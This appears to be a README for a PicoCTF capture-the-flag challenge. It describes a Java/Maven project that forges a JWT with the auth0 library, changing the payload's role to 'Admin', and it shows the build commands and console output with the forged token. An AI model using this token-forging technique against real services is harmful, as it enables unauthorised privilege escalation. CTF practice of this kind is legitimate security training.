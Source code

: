 # PicoCTF Web Exploitation: Java Code Analysis Challenge

This is java code that i needed to generate a JWT token based on a symetric secret key. 
The CTF challenge requires us to tamper with a JWT token to assign a more priviliged role to a user.
Tokens that get signed from other libraries or online tools get rejected by the java server.

The only way for the token to get accepted is to use the same implementation as the server's. That is the `auth0` dependency implementation of JWT.

## Java Version Requirement

I used java `11` for this project, and it is hardcoded in the `pom.xml` configuration file.

```xml
<build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <version>3.8.1</version>
                <configuration>
                    <source>11</source>   <!-- Java 11 as the source version -->
                    <target>11</target>   <!-- Java 11 as the target version -->
                </configuration>
            </plugin>
        </plugins>
    </build>
```

## How to use this code?

First make sure your working directory is the root of this project, meaning you are in the same directory as the `pom.xml` configuration file.

Second make sure you have `maven` installed.

```
mvn -v
```

If not install it

```
sudo apt install maven
```

next use maven to build the project

```
mvn clean install
```

Go to the `CreateJWT.java` file (`src/main/java/com/jwtproject/CreateJWT.java`) and modify the JWT token payload. The three keys you need to modfiy are these variables:

```java
    Integer userId  = 6;
    String email    = "pico@ctf.org";
    String role     = "Admin";
```

This is an example token payload:

```json
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1734090386,
  "iat": 1733485586,
  "userId": 6,
  "email": "pico@ctf.org"
}
```

Then compile and run the project to get the JWT token

```
mvn compile exec:java -Dexec.mainClass="com.jwtproject.CreateJWT"
```

And here is what should the output look like:

```console
mvn compile exec:java -Dexec.mainClass="com.jwtproject.CreateJWT"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[INFO] Scanning for projects...
[INFO] 
[INFO] ----------------------< com.jwtproject:jwt-demo >-----------------------
[INFO] Building jwt-demo 1.0
[INFO]   from pom.xml
[INFO] --------------------------------[ jar ]---------------------------------
[INFO] 
[INFO] --- maven-resources-plugin:2.6:resources (default-resources) @ jwt-demo ---
[WARNING] Using platform encoding (UTF-8 actually) to copy filtered resources, i.e. build is platform dependent!
[INFO] skip non existing resourceDirectory /home/kali/PicoCTF/web_exploitation/Java_Code_Analysis/JWT-Token-Java-Auth0/src/main/resources
[INFO] 
[INFO] --- maven-compiler-plugin:3.8.1:compile (default-compile) @ jwt-demo ---
[INFO] Nothing to compile - all classes are up to date
[INFO] 
[INFO] --- exec-maven-plugin:3.5.0:java (default-cli) @ jwt-demo ---
Generated JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3MzQwOTc3MzUsImlhdCI6MTczMzQ5MjkzNSwidXNlcklkIjo2LCJlbWFpbCI6InBpY29AY3RmLm9yZyJ9.g3FC3_alodRqD-xwL9rb9B-q5c3xMPNKW4-CxJKDB8U
Verified JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3MzQwOTc3MzUsImlhdCI6MTczMzQ5MjkzNSwidXNlcklkIjo2LCJlbWFpbCI6InBpY29AY3RmLm9yZyJ9.g3FC3_alodRqD-xwL9rb9B-q5c3xMPNKW4-CxJKDB8U
Role: Admin
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  2.019 s
[INFO] Finished at: 2024-12-06T08:48:55-05:00
[INFO] ------------------------------------------------------------------------
```